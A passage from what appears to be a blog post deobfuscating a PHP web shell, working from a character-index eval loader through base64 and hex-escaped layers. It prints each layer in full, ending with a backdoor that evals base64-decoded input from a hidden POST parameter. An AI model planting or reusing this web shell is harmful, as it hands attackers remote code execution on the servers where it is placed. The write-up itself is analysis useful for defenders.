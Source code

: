 $terms = array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "&lt;", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&amp;", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", "&gt;", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");

$order = array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);

$do_me = "";
for ($i = 0; $i &lt; count($order); $i++)
{
    $do_me = $do_me.$terms[$order[$i]];
}

eval($do_me);
?&gt;
</code></pre><p>To de-obfuscate the code, I simply replaced the <code>eval</code> function with an <code>echo</code>:</p><pre><code class="language-php">$_ = 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';
$__ = 'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';
$___ = "\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";

eval($___($__));
</code></pre><p>This one is a little more complicated. First, the variable <code>$___</code> is the string <code>base64_decode</code> encoded to hex/decimal notation.</p><p>Once again, replacing <code>eval</code> with <code>echo</code> reveals the next block of code:</p><pre><code class="language-php">$code = base64_decode($_);
eval($code);
</code></pre><p>Once more:</p><pre><code class="language-php">if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"]))
{
    eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"]));
}